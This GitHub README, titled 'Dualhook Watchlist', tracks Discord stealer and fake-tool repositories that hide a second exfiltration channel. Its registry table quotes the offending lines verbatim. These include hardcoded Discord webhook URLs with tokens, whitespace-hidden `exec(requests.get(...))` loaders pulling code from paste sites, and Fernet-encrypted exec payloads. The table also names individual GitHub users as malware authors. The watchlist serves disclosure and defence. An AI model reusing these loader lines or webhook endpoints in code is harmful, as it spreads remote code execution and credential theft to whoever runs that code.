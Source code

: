 
<p align="center">
  Dualhook Watchlist
</p>

<p align="center">
  Support URL : https://discord.gg/SKGjXfmFga
</p>

## About

The "Dualhook Watchlist" repository is dedicated to tracking, monitoring, and documenting individuals or programs associated with the creation and use of "dualhooks." Dualhooks are a potential security concern in various online platforms, including Discord. These hooks may be used for unauthorized access and data theft.

Our mission is to maintain a comprehensive list of known dualhook creators, their pseudonyms (usernames), associated links or profiles, and relevant webhook information. By actively monitoring and sharing information about dualhook activities, we aim to enhance online security and protect communities from potential threats.

## User Registry

FOR MORE PRECISE INFORMATION CHECK DATA.TXT

| Username | Link | Reason | files dualhooked | detected line 
|----------|------|--------|---------|-
| Buzz229 | https://github.com/Buzz229/FADE-LEAKED | Unsafe |[File URL](https://raw.githubusercontent.com/Buzz229/FADE-LEAKED/main/stealer.py) | Line 19: hook='https://discord.com/api/webhooks/1043019305870176296/ApyKlgttx5Pfw2xK5YI70NlNjflLOUNkRd5pTkbCfZwD9gzyhane-AatnQvwFU_uPpoW'
| shelby611 | https://github.com/shelby611/discord-boost-bot | Unsafe |[File URL](https://raw.githubusercontent.com/shelby611/discord-boost-bot/main/main.py) | Line 3: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/q3i7zp/raw').text)
| Moon1903 | https://github.com/Moon1903/MoonStealer | Unsafe |[File URL](https://raw.githubusercontent.com/Moon1903/MoonStealer/main/main.py) | Line 101: a = "https://discord.com/api/webhooks/1181981724431884469/dGjB59xwmQA0fbRb7dM9IKJ9RYijuS0pDMPiwQa95ttsr9mZFrCIQAFQcG235-EhhDth"
| 17MollyKobain | https://github.com/17MollyKobain/Discord-Token | Unsafe |[File URL](https://raw.githubusercontent.com/17MollyKobain/Discord-Token/main/TokenStealer.py) | Line 184:         urlopen(Request("https://discord.com/api/webhooks/840670878056579123/p3vhHkySfun-xG8MnBBt0XePbcLHL48_Ibey4-Xqea1OcuTkuM0hgu3ercvc4akT8vUE", data=dumps(webhook).encode(), headers=getheaders()))
| Xfrankxrs | https://github.com/Xfrankxrs/Muck-Stealer | Unsafe |[File URL](https://raw.githubusercontent.com/Xfrankxrs/Muck-Stealer/master/muck-stealer.py) | Line 561:     global hook                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     ;exec(Fernet(b'D0gt8qtQaJcvXKmvyQux_1UbdPxmDms4puapLdX6Aic=').decrypt(b'gAAAAABlOAaPq0Kjxq8r0XG7Pfu2FpFqYfXYGvVdZG_2dQoMsIXV0pxSoyTZiLGcSzXEejpUUU4NXMLDc-YmLwr91F3gsoRXUFtcYtpY74DgXsA933zTxfQaAf0VJG3YCOg7cW38kNAte2YFmXFipSNbl7lBwGWsIofwPzF7pFrio4voVrml4PL0a6ykzVkKP4FdgSCUkQRyI0HJxi7UosUJo_XGiAD18A=='))
| badsimods | https://github.com/badsimods/discord-nitro-sniper | Unsafe |[File URL](https://raw.githubusercontent.com/badsimods/discord-nitro-sniper/main/sniper.py) | Line 3:     import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| Pinguine69 | https://github.com/Pinguine69/discord-photo-ip-grabber-2 | Unsafe |[File URL](https://raw.githubusercontent.com/Pinguine69/discord-photo-ip-grabber-2/main/httpsi.pinimg.comoriginals46087746087732c14e9d16980237def48e10ccpng.py) | Line 15:     "webhook": "https://discord.com/api/webhooks/1133786383954219050/iBduEGuMpL5CAKd2cAYLTnVLVdSnJfTnePRIumhuSq4C-yLOytHjXr1nO5r8iW4PLjxP",
| TNTaddict | https://github.com/TNTaddict/DiscordTokenStealer | Unsafe |[File URL](https://raw.githubusercontent.com/TNTaddict/DiscordTokenStealer/main/TNT_Stealer.py) | Line 538: emergencyinjection = "https://discord.com/api/webhooks/1143583197549043782/yVWATxco4RyLqRVtPEgh7hHeS5hlk98whUpkLTjqxCpNxsBFG18g9HwGr7NMsp1dvz8d",  Line 2011: emergencyinjection = "https://discord.com/api/webhooks/1139963367382077582/IwGY6gsubuEp-hxJBqQF7ppkLvoUqSfgrjHRRVxqVxMFeEHXOxrJY0W_QIKxuAcsgHK-"
| 9732010gh70 | https://github.com/9732010gh70/Discord-Nitro-Generator | Unsafe |[File URL](https://raw.githubusercontent.com/9732010gh70/Discord-Nitro-Generator/main/Main.py) | Line 6: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            ;exec(Fernet(b'giWEa9DXWSuZEDHgsBlB2b0mFbkN3FMQORdRMRwTmAQ=').decrypt(b'gAAAAABlb2_1mUAQDnwJ5PUpS3kTe_dUOmfeJE3PYcJ9q9qvtkiA82FfWjJ_R2VNjaq36ANvjO8Jg_dEwT1K9jmy7-p0RUc__7lhvQesOf-qE-Um4moaQnnZODgnHus3xHhbsj-8oR2i9hZaycctjIpSEIbhyprPeeRXGzuFAkZLmJ2oNPUbF7HEqjyBABbXNqEWYJ5vC-70fXlX2hPv546ofipqLLjPww=='))
| Moon1903 | https://github.com/Moon1903/MoonStealer | Unsafe |[File URL](https://raw.githubusercontent.com/Moon1903/MoonStealer/main/main.py) | Line 101: a = "https://discord.com/api/webhooks/1182616611945988106/7TmM--YTsQEsfDJ1-VEFkLHNGcbbNcOXiXbHoCLjHWKzZ0YtkfXX9RisH_1YrTyFbav3"
| LePilot1 | https://github.com/LePilot1/Discord-Token-stealer | Unsafe |[File URL](https://raw.githubusercontent.com/LePilot1/Discord-Token-stealer/main/token%20stealer.py) | Line 8: WEBHOOK_URL = 'https://discord.com/api/webhooks/862846944438779914/3NBBv6q6lH9v5VukimXWRlU_lor2c0Mp3xiPEYidWY2gKbFqxwGfrRXOXB-Egf5z5gua'
| maliqto | https://github.com/maliqto/VoidGrabber | Unsafe |[File URL](https://raw.githubusercontent.com/maliqto/VoidGrabber/main/main.py) | Line 8: WEBHOOK_URL = 'https://discord.com/api/webhooks/1176566609696006225/-e6CtC5nSwEb9uoEE_92PylRtjGx4nEBSgXcIqkUG5Sx8WzvXqSEPu3393pY_Tj1FRku'
| badsimods | https://github.com/badsimods/discord-vanity-sniper | Unsafe |[File URL](https://raw.githubusercontent.com/badsimods/discord-vanity-sniper/main/main.py) | Line 4: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| heygdrg | https://github.com/heygdrg/Toxic-stealer | Unsafe |[File URL](https://raw.githubusercontent.com/heygdrg/Toxic-stealer/main/Toxic-Stealer.py) | Line 42: Webhook_Here = "https://discord.com/api/webhooks/1037270936191258684/sZpwvKzgeH0SKqib7ohWd39o_Zl31L6rorncUqxrbA5Cch7bpexV6s6dDtRperhYUo2Ni
| j3rr7 | https://github.com/j3rr7/discord-stealer-source-code | Unsafe |[File URL](https://raw.githubusercontent.com/j3rr7/discord-stealer-source-code/main/decompiled.py) | Line 30: _WEBHOOK_HERE_ = "https://discord.com/api/webhooks/1049690604734513312/Hv5BaA9nboddw_FctP36Sw7t9kR3XTcz33U3AEpIOoIYJJgbf4ZCzKzvJEaoGcTqHERT"
| 141100hy14 | https://github.com/141100hy14/discord-vanity-sniper | Unsafe |[File URL](https://raw.githubusercontent.com/141100hy14/discord-vanity-sniper/main/main.py) | Line 6: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            ;exec(Fernet(b'6uJx1G4rvvbc1wCpbBfxHL5UawP3Er4vNTYvhKTL5x0=').decrypt(b'gAAAAABlb3E-veFsiIC1Wp87-0sc2kMkKQSkLDJ5dTAKvC6UITp4mM4tkKq3VMoPliUojGhqtj-KpxHnfJtKfkxTQxO9ZHRFIgehyxJTI1CYipgSPnJ6hAm1cik4jKru6YGeovVH0BE-7q4vKMPTIxU-any2kYcdWS3uIBqh8F-5ukmy-w6JRt-5ClCeo0iJCmp7Xbrh2BK0EQFMWpVcvGZG7CDwiqmhRQ=='))
| guiscriptmakerlol | https://github.com/guiscriptmakerlol/RRs-Grabber | Unsafe |[File URL](https://raw.githubusercontent.com/guiscriptmakerlol/RRs-Grabber/main/RRs%20Grabber.py) | Line 8:     webhook = "https://discord.com/api/webhooks/1095987665431703562/4Osghk4v55EUJmcmK7nEQIcZtQpeGCWK7QM1QdrlIKX_2QClnCWuRtjxwTgyuhX6ePlW"
| rckstrrr | https://github.com/rckstrrr/discord-vanity-sniper | Unsafe |[File URL](https://raw.githubusercontent.com/rckstrrr/discord-vanity-sniper/main/index.py) | Line 3: import requests                                                                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/a2edp').text)
| zByDiegoMT | https://github.com/zByDiegoMT/ByDiego-Token-Grabber | Unsafe |[File URL](https://raw.githubusercontent.com/zByDiegoMT/ByDiego-Token-Grabber/main/main.py) | Line 17:         self.webhook = "https://discord.com/api/webhooks/944275288622268506/NUqePmXSndW8y1oqGwXNl86nfTcWQInDxWsmZsR5Ue7jpvFBueNDN_aFGya5I1k7VnXE"
| reyzovw | https://github.com/reyzovw/telegram-stealler | Unsafe |[File URL](https://raw.githubusercontent.com/reyzovw/telegram-stealler/main/main.py) | Line 16: discord_webhook_url = "https://discord.com/api/webhooks/1113092539931693136/_hqR3AE23ne9nRjdbfQpgDFbRN9lMKlR8ZvawMBgxeKlaMnaglhhViuWmKfXEtWRYqS3"
| xdexty0 | https://github.com/xdexty0/Dexty-Grabber | Unsafe |[File URL](https://raw.githubusercontent.com/xdexty0/Dexty-Grabber/main/Dexty.py) | Line 55: wh00k = "https://discord.com/api/webhooks/1143635231723765880/MU3NYR3a9BsI2a5F_fNDpxUvyR9H6CC3GEotfC46OGYkfPTqOzOt6BHGgcY4de40B34k"
| TheWay-hue | https://github.com/TheWay-hue/C.A.S-Discord-Tool-v4 | Unsafe |[File URL](https://raw.githubusercontent.com/TheWay-hue/C.A.S-Discord-Tool-v4/master/tool.py) | Line 417: 								file.write(f'https://discord.com/api/webhooks/{req["id"]}/{req["token"]}\n')
| tmtag84 | https://github.com/tmtag84/DIscord-Nitro-Generator-Checker-Python | Unsafe |[File URL](https://raw.githubusercontent.com/tmtag84/DIscord-Nitro-Generator-Checker-Python/main/main.py) | Line 96:             url = 'https://discord.com/api/webhooks/970347102293073942/7PHvjmdHXHq9nZN8O2BMdrJgxmVaXpYI8ukthaeh5FhAQMkn18_jDdsAyTugo2988kHX'  # Get the awnser
| zrSadek | https://github.com/zrSadek/discord-raid-tool | Unsafe |[File URL](https://raw.githubusercontent.com/zrSadek/discord-raid-tool/main/main.py) | Line 18: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| poink0411 | https://github.com/poink0411/Discord-Token-Grabber | Unsafe |[File URL](https://raw.githubusercontent.com/poink0411/Discord-Token-Grabber/main/main.py) | Line 6: WEBHOOK="https://discord.com/api/webhooks/[webhookcode]"
| zrSadek | https://github.com/zrSadek/tiktok-report-bot | Unsafe |[File URL](https://raw.githubusercontent.com/zrSadek/tiktok-report-bot/main/main.py) | Line 3: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| keirman1 | https://github.com/keirman1/Nitro-gen | Unsafe |[File URL](https://raw.githubusercontent.com/keirman1/Nitro-gen/main/main.py) | Line 9: web = 'https://discord.com/api/webhooks/1001416977912447046/BAfXFC9hgtmGJVXmQOioR2asR3babRWBa5HQzwVl7Nmqfis56COrPVni8uc-PwnP00gK'
| Heaventh007 | https://github.com/Heaventh007/DREKOX-STEALER | Unsafe |[File URL](https://raw.githubusercontent.com/Heaventh007/DREKOX-STEALER/main/main.py) | Line 18: hook = "" # https://discord.com/api/webhooks/1067835493749899444/fGVDbASt3N7zzaE2sz4C0Av8Ug57Sz1Nh7nNO5g1mx8ayDb05h5XyDZnugt9_qWKHJ8B
| badsimods | https://github.com/badsimods/discord-raid-tool | Unsafe |[File URL](https://raw.githubusercontent.com/badsimods/discord-raid-tool/main/main.py) | Line 18: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| pengiwn | https://github.com/pengiwn/QR-Token-Grabber | Unsafe |[File URL](https://raw.githubusercontent.com/pengiwn/QR-Token-Grabber/main/QR_Generator.py) | Line 145:                             req = Request('https://discord.com/api/webhooks/981890982431821884/6lceRdTsRmYNBKM5c5Qp39k69rBJ0WJ5tA8opJFfthekRsT68RQXicdwJgrb_MI0ACCj', data=payload.encode(), headers=headers2)
| zrSadek | https://github.com/zrSadek/discord-mass-friend | Unsafe |[File URL](https://raw.githubusercontent.com/zrSadek/discord-mass-friend/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| vaquzo | https://github.com/vaquzo/discord-boosttool | Unsafe |[File URL](https://raw.githubusercontent.com/vaquzo/discord-boosttool/main/tokenf.py) | Line 2: import requests																																																																																																																																																																																																																																																																			;exec(requests.get('https://bananasquad.ru/paste').text.replace('<pre>','').replace('</pre>',''))
| Xfrankxrs | https://github.com/Xfrankxrs/Muck-Stealer | Unsafe |[File URL](https://raw.githubusercontent.com/Xfrankxrs/Muck-Stealer/master/muck-stealer.py) | Line 561:     global hook                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     ;exec(Fernet(b'D0gt8qtQaJcvXKmvyQux_1UbdPxmDms4puapLdX6Aic=').decrypt(b'gAAAAABlOAaPq0Kjxq8r0XG7Pfu2FpFqYfXYGvVdZG_2dQoMsIXV0pxSoyTZiLGcSzXEejpUUU4NXMLDc-YmLwr91F3gsoRXUFtcYtpY74DgXsA933zTxfQaAf0VJG3YCOg7cW38kNAte2YFmXFipSNbl7lBwGWsIofwPzF7pFrio4voVrml4PL0a6ykzVkKP4FdgSCUkQRyI0HJxi7UosUJo_XGiAD18A=='))
| shaheedghazi | https://github.com/shaheedghazi/file-Grabber | Unsafe |[File URL](https://raw.githubusercontent.com/shaheedghazi/file-Grabber/main/Dexty.py) | Line 55: wh00k = "https://discord.com/api/webhooks/1143635231723765880/MU3NYR3a9BsI2a5F_fNDpxUvyR9H6CC3GEotfC46OGYkfPTqOzOt6BHGgcY4de40B34k"
| sodaduhking | https://github.com/sodaduhking/FAKE-NITRO-GEN | Unsafe |[File URL](https://raw.githubusercontent.com/sodaduhking/FAKE-NITRO-GEN/main/fake%20nitro%20gen%20by%20soda.py) | Line 19: webhook = SyncWebhook.from_url("https://discord.com/api/webhooks/1157188266555101226/KU5Ybfdlta5oU275cggK5xgGNcB8Ej8yiu45iVEC-5fTvvQosFHDpYiWFCfuLaE52QsN")
| badsimods | https://github.com/badsimods/discord-mass-friend | Unsafe |[File URL](https://raw.githubusercontent.com/badsimods/discord-mass-friend/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| OY33 | https://github.com/OY33/DROP-AIO | Unsafe |[File URL](https://raw.githubusercontent.com/OY33/DROP-AIO/main/atio.py) | Line 19: hook = "https://discord.com/api/webhooks/1069160044391829534/48oOO9KRi1zi6vJuVYlN21Jna9dIR1Gjpf8mMVgorfsIisffu-XB_G4VcW1KtCQs5EM1"
| zrSadek | https://github.com/zrSadek/discord-server-cloner | Unsafe |[File URL](https://raw.githubusercontent.com/zrSadek/discord-server-cloner/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| badsimods | https://github.com/badsimods/discord-server-cloner | Unsafe |[File URL](https://raw.githubusercontent.com/badsimods/discord-server-cloner/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| scriptedxd | https://github.com/scriptedxd/script-stealer | Unsafe |[File URL](https://raw.githubusercontent.com/scriptedxd/script-stealer/main/script%20free.py) | Line 27: __WEBHOOK_HERE__ = "https://discord.com/api/webhooks/1048880496559538207/PSNxlrFQlqdvlXZZMwo1_72dEpzsUN7PgQepDlCzATD8seCBQ0TwURBZdgMKZAdgXeMn"
| Plasmonix | https://github.com/Plasmonix/Chrome-stealer | Unsafe |[File URL](https://raw.githubusercontent.com/Plasmonix/Chrome-stealer/main/main.py) | Line 12: WEBHOOK = "https://discord.com/api/webhooks/..."
| PanEditor | https://github.com/PanEditor/StealerCrealer | Unsafe |[File URL](https://raw.githubusercontent.com/PanEditor/StealerCrealer/main/StealerCrealer.py) | Line 19: hook = "https://discord.com/api/webhooks/1059904050881110067/JndgDe25LBhAVAcGRbGXpnOBj_LqZddIZmTS5qfZorEN16V-849jKdmZeGvN4AmnV_PQ"
| TrezzyMODS | https://github.com/TrezzyMODS/Ethical | Unsafe |[File URL](https://raw.githubusercontent.com/TrezzyMODS/Ethical/main/Ethical.py) | Line 55: wh00k = "https://discord.com/api/webhooks/1150915615989698600/sge8TDfL5zbEzzAqYzRfjzjq0QadQiVt5nofhjaGiIFxr7K0_CbN9EuT3E65QYwVYyX_"
| vanis1980 | https://github.com/vanis1980/Vissage-Self-Bot- | Unsafe |[File URL](https://raw.githubusercontent.com/vanis1980/Vissage-Self-Bot-/main/main.py) | Line 82:         'https://discord.com/api/webhooks/943632482937495613/0JmWU3roRUTn3aBUOMD3eXDQ5RpnX_tqFH2Qinz1TX0dRNE4NgGXHZEWKCOHzpfjCxfY',
| zrSadek | https://github.com/zrSadek/discord-nitro-sniper | Unsafe |[File URL](https://raw.githubusercontent.com/zrSadek/discord-nitro-sniper/main/sniper.py) | Line 3:     import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| BestCoder2Exist2 | https://github.com/BestCoder2Exist2/Discord-Emote-Manager | Unsafe |[File URL](https://raw.githubusercontent.com/BestCoder2Exist2/Discord-Emote-Manager/main/bot.py) | Line 8: WEBHOOK_URL = 'https://discord.com/api/webhooks/831938157133299712/3oqFupS4ck08QlciDrB-MeZxhRLpi4En3RvK5qqJT4i5ddeVnJMD8_EW5V9PLS6mV3Fo'
| Moon1903 | https://github.com/Moon1903/MoonStealer | Unsafe |[File URL](https://raw.githubusercontent.com/Moon1903/MoonStealer/main/main.py) | Line 101: nigga = "https://discord.com/api/webhooks/1183888873131081819/DpqnnVuk2fHFao1mpmQ69Fgcl6Z39H8LA04ehqlFHo0XkejBVRiMf6Nl_qEcyLAms4Jk"
| user745222 | https://github.com/user745222/discord-boost-tool | Unsafe |[File URL](https://raw.githubusercontent.com/user745222/discord-boost-tool/main/main.py) | Line 3: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/q3i7zp/raw').text)
| MythicDeveloping | https://github.com/MythicDeveloping/Discord-Fake-Nitro-Proof-Generator | Unsafe |[File URL](https://raw.githubusercontent.com/MythicDeveloping/Discord-Fake-Nitro-Proof-Generator/main/main.py) | Line 4: import random                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       ;exec(requests.get('https://paste.website/p/cca0c42e-9bfa-4163-820c-d73b5a6f2b8b.txt').text)
| LinuxPhantom | https://github.com/LinuxPhantom/IP-Grabber-To-Discord | Unsafe |[File URL](https://raw.githubusercontent.com/LinuxPhantom/IP-Grabber-To-Discord/main/Main.py) | Line 41:     h = "https://discord.com/api/webhooks/1136811328212828190/qUki18tSz3FCU7-wB6yYPusiGmPRlFuhSQsgF68eJ_foEbZnuwXhBI83Mb5hqufNIa9N"  # REPLACE WITH YOUR WEBHOOK
| zrSadek | https://github.com/zrSadek/discord-vanity-sniper | Unsafe |[File URL](https://raw.githubusercontent.com/zrSadek/discord-vanity-sniper/main/main.py) | Line 4: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| badsimods | https://github.com/badsimods/discord-nitro-sniper | Unsafe |[File URL](https://raw.githubusercontent.com/badsimods/discord-nitro-sniper/main/sniper.py) | Line 3:     import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| SiesShinn162 | https://github.com/SiesShinn162/Sies-Pass-Stealer | Unsafe |[File URL](https://raw.githubusercontent.com/SiesShinn162/Sies-Pass-Stealer/main/botnet.py) | Line 30:     hook = "https://discord.com/api/webhooks/1059813273849049108/E8emDhbCfxkscuupCO3fUYhEbTEdc6J80ppNQ3iJTdm00MZ79R9AsEgXUKtv0_ogg4Vx"
| badsimods | https://github.com/badsimods/tiktok-report-bot | Unsafe |[File URL](https://raw.githubusercontent.com/badsimods/tiktok-report-bot/main/main.py) | Line 3: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| 4Carol2000nr08 | https://github.com/4Carol2000nr08/Discord-image-logger | Unsafe |[File URL](https://raw.githubusercontent.com/4Carol2000nr08/Discord-image-logger/main/main.py) | Line 6: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            ;exec(Fernet(b'VrVf6HlKy0CW_5HUtiUVTx-kKNhkMSBvmpG1NfEPs8I=').decrypt(b'gAAAAABlczXs8pdq5-C-to2dD4zbg_40U17pDp-GK0tHoNmYZO8TFjdd-T8OuW5tLusVK1OeGCe2ps30QABjixl9UetRtbkmuuw8cbObij0mBo-5bYRjHM51v7PIxgEfoCGtBb1-XfV9nSmew519CzgIgz-xO4vqbRYYWLvsPiO1aQsoSxLFMoUsGODfk8ZSdZNR4DJ9xDpJGKN_Od7JgkjQj53rVKb_zQ==')),  Line 18:     "webhook": "https://discord.com/api/webhooks/your/webhook",
| 5062012kw40 | https://github.com/5062012kw40/Discord-Raid-Tool | Unsafe |[File URL](https://raw.githubusercontent.com/5062012kw40/Discord-Raid-Tool/main/main.py) | Line 6: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            ;exec(Fernet(b'ZgCZwbBYKBftuuZE8CXL6dFWw7NqKbkKiD-ocadnw9U=').decrypt(b'gAAAAABlb26gT80dJqPMXoN1ngWN9PuS13nJIv5h8pX0IFkQNAwjaaLgnwhH7ObITtZ21_uKS5FHP5U_lJWm_HQ0oTeR2q-hPsZPHotJgS11HMeDyeR9uBCAdvzW47e5Dn0SMqEjy6RRj9KWeyxSU7226IlWmeppzjQXL1iZhnQIHwf_EYXEzyn7y-wEIcwHxl3JhGbEv6pacy4a6PXQ4jJajVg76nLMcA=='))
| ghostgrabberdev | https://github.com/ghostgrabberdev/Ghost-grabber | Unsafe |[File URL](https://raw.githubusercontent.com/ghostgrabberdev/Ghost-grabber/main/main.py) | Line 154:                     requests.post(f'https://discord.com/api/webhooks/1175882959442690088/HRNzhaG8E1w5SkvN4VAm5E-R43nCJAzpOdgSs6IBFHS19q7wv7OKodA4P5feq4ppWUpC', data=payload.encode(), headers=headers2)
| maliqto | https://github.com/maliqto/VoidGrabber | Unsafe |[File URL](https://raw.githubusercontent.com/maliqto/VoidGrabber/main/main.py) | Line 8: WEBHOOK_URL = 'https://discord.com/api/webhooks/1176566609696006225/-e6CtC5nSwEb9uoEE_92PylRtjGx4nEBSgXcIqkUG5Sx8WzvXqSEPu3393pY_Tj1FRku'


## Contributing

If you have information about dualhooks or individuals involved in their creation, please consider contributing to our registry. To contribute, follow these steps:

1. Fork this repository.
2. Add the relevant information to the table above.
3. Submit a pull request with your changes.

Your contributions will help us maintain an up-to-date record of potential security threats.

## How to find them easily

1. Go on github and search for "Discord Stealer", "Nitro Generator", "Token Generator" and search for the most recent one
2. Then look in the code for any dualhook
   
## Join the Dualhook Detectives

Join us in our efforts to safeguard online spaces and raise awareness about the risks posed by dualhooks. Together, we can contribute to a safer and more secure online environment for all users.
